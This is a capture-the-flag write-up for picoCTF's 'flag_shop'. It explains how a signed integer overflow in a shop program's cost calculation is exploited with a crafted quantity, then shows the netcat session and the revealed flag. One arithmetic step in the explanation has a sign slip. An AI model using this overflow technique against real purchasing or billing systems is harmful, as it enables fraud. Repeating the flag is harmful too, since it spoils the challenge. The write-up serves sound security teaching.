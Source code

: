 # flag_shop
Points: 300

## Table of Contents
  * [Description](#description)
  * [Hints](#hints)
  * [Solution](#solution)
  * [Flag](#flag)
  
## Description
There's a flag shop selling stuff, can you buy a flag? [Source](files/store.c). Connect with ```nc jupiter.challenges.picoctf.org 44566```.

## Hints
1. <details>
    <summary>Hint 1</summary>
    Two's compliment can do some weird things when numbers get really big!
    </details>

## Solution
From the given [source code](files/store.c), it seems that the following code block contains a vulnerability that we can exploit to purchase the flag.

```C
int number_flags = 0;
fflush(stdin);
scanf("%d", &number_flags);
if(number_flags > 0){
    int total_cost = 0;
    total_cost = 900*number_flags;
    printf("\nThe final cost is: %d\n", total_cost);
    if(total_cost <= account_balance){
        account_balance = account_balance - total_cost;
        printf("\nYour current balance after transaction: %d\n\n", account_balance);
    }
    else{
        printf("Not enough funds to complete purchase\n");
    }
```

Although it makes sure that ```number_flags``` cannot be negative, it simply multiplies ```number_flags``` by ```900``` to compute ```total_cost``` without further validation. This operation can lead to an [integer overflow](https://en.wikipedia.org/wiki/Integer_overflow) vulnerability.

```int``` datatype in C has an upper limit, which is [2147483647]([2147483647](https://www.geeksforgeeks.org/int_max-int_min-cc-applications/)) or ```(2^31) - 1```. If we have the following program

```C
int main() {
  int i = 2147483647;
  i++; // add 1 to the upper limit
  printf("%d", i);
  return 0;
}
```

It will print ```-2147483648```, which is the lower limit of ```int``` datatype in C, since adding to the upper limit causes the program to wrap around to the lower limit.

One solution is to input the following number for ```number_flags``` (the number is computed with Python)

```Python
>>> round(((2**31) / 900) + 2)
2386095
```

Here, ```(2^31) / 900``` will pass the first check ```if(number_flags > 0)``` as it is a positive number and it does not exceed the upper limit of ```int```. 

When it is multiplied by 900 to compute the total cost,

```(2^31) / 900 * 900 = (2^31)```

It will return ```(2^31)```, which is greater than the upper limit ```(2^31)-1``` and thus, it will return the lower limit due to the overflow. This makes ```total_cost``` negative.

However, in the program, we start with ```int account_balance = 1100;```. If we simply use ```(2^31) / 900```, the following code will make ``` account_balance``` to be ```-(2^31)+1100``` that will not overflow to become a large positive number since it does not exceed the lower limit.

```account_balance = account_balance - total_cost;```

Therefore, the ```+ 2``` in ```((2**31) / 900) + 2``` can be used to cancel out ```1100```.

```total_cost = (((2**31) / 900) + 2) * 900```

```total_cost = (2**31) + 1800```

```(2**31)``` will overflow to become ```-(2**31)```

```account_balance = 1100 - (-(2**31) + 1800)```

```account_balance = -(2**31) - 700```

which will overflow to be a large positive integer.

```
$ nc jupiter.challenges.picoctf.org 44566
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
2386095

The final cost is: -2147481796

Your current balance after transaction: 2147482896
```

Finally, we can purchase the actual flag.

```
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: *****
```

## Flag
<details>
  <summary>Flag</summary>
  picoCTF{m0n3y_bag5_68d16363}
</details>